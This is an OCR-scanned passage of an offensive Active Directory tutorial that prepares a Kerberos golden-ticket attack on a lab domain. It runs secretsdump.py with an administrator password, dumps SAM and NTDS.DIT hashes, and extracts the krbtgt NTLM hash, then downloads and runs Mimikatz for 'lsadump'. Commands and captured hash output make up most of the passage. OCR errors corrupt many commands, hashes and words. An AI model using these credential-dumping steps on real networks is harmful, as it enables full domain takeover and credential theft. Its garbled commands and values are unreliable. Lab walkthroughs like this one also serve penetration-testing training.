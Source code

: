 we can then extract the **krbtgt** hash and domain name
```bash
secretsdump.py "administrator:Password123!"@192.168.122.30	-outputfile krb	-user-status
```

```output
Impacket vo.12.@ - copyright Fortra, LLC and its affiliated companies
[A] service RemoteRegistry is in stopped state
[ Starting service RemoteRegistry
[ Target system bootKey: oxe85996277a95c16df5b512b54b022890
[ * ] Dumping local SAM hashes (uid: rid: Imhash:nthash)
Administrator : 500 : : 2b576acbe6bcfda7294d6bd18@41b8fe: : :
Guest : 501 : aad3b435b51404eeaad3b435b51404ee : 31d6cfeOd16ae931b73c59d7eoc089co: : :
Defau ltAccount : 503 : aad3b435b51404eeaad3b435b51404ee : 31d6cfe@d16ae931b73c59d7eoc089co : : :
[ Dumping Domain Credentials (domain\uid:rid: Imhash:nthash)
[ * ] using the DRSUAPI method to get NTDS.DIT secrets
Administ rator : 500 : : 2b576acbe6bcfda 7294d6bd18041b8fe: : : (status-Enabled)
Guest : 501 : aad3b435b51404eeaad3b435b514@4ee : 31d6cfeod16ae931b73c59d7eoc@89co: : : (status—Enab led)
krbtgt : : : • ( status=DisabIed )
hexdump. tab\ leo : 1103 : aad3b435b51404eeaad3b435b514@4ee : 2b576acbe6bcfda7294d6bd18041b8fe: : : (status-Enab led)
hexdump . lab\asrep : 1109 : aad3b435b51404eeaad3b435b514@4ee : 859d2fababafec50654a8be58f5c 71b2 : : : (status-Enabled)
hexdump. lab\kerberoasting : 1110 : aad3b435b51404eeaad3b435b51404ee : 859d2fababafec50654a8be58f5c71b2 : : : (status-Enabled)
```

AS we can see we have obtained the NTLM hash of the KRBTGT account
```example
0d72117dbb5e29489df175068f399d91
```

And we also have the name of the domain
```example
hexdump.lab
```

#### Second Method 
 Another way to obtain the KRBTGT account ULM hash is through Mimikatz
- https://github.com/gentilkiwi/mimikatz
```powershell
iwr -uri https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip	-Outfile mimikatz_trunk.zip 

Expand-Archive -Path 'mimikatz_trunk.zip'

cd . . \mimikatz_trunk\x64\
.\mimikatz.exe
```

Once you have a privileged mimikatz session, execute the following
```powershell
privilege::debug
lsadump::Isa / inject /name:krbtgt
```
